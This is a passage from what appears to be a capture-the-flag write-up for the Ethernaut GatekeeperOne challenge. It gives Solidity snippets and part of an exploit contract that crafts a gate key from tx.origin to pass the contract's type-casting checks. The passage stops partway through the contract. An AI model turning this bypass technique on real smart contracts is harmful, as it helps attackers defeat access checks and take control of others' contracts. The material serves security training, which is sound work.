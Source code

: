 The solution is implemented in both exploit contracts with slightly different approaches:

```solidity
// In GatekeeperOneExploit.sol
uint16 addressLast2Bytes = uint16(uint160(_origin));
uint64 key = uint64(addressLast2Bytes) | 0x1000000000000000;

// In AlternateExploit.sol
bytes8 key = bytes8(uint64(uint16(uint160(tx.origin))) | 0x1000000000000000);
```

Both implementations:
- Take the last 2 bytes of the tx.origin address
- Set bytes 2-3 to zero
- Set a bit in the highest byte to ensure condition 2 is met

This approach works reliably across all environments.

### Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
    function entrant() external view returns (address);
}

contract GatekeeperOneExploit {
    address public owner;
    address public gatekeeperAddress;
    bool public success;
    uint256 public gasToUse;
    
    constructor(address _gatekeeperAddress) {
        owner = msg.sender;
        gatekeeperAddress = _gatekeeperAddress;
    }
    
    function generateGateKey(address _origin) public pure returns (bytes8) {
        // We need to craft a key that meets three conditions:
        // 1. uint32(uint64(key)) == uint16(uint64(key))
        //    This means the lower 2 bytes must match when converting to uint16 and uint32
        //    So bytes 2-3 must be 0
        //
        // 2. uint32(uint64(key)) != uint64(key)
        //    This means at least some bits in bytes 4-7 must be non-zero
        //
        // 3. uint32(uint64(key)) == uint16(uint160(tx.origin))
        //    This means the lower 2 bytes must match the lower 2 bytes of tx.origin
        
        // Extract the last 2 bytes (16 bits) of the address
        uint16 addressPart = uint16(uint160(_origin));
        
        // For condition 1 and 3: Create a key where the lower 16 bits are the address bits
        // and bytes 2-3 are zeros
        uint64 key = uint64(addressPart);
        
        // For condition 2: Make sure bytes 4-7 have some non-zero bits
        // We'll set them all to 1s
        key = key | (uint64(0xFFFFFFFF00000000));
        
        return bytes8(key);
    }
    
```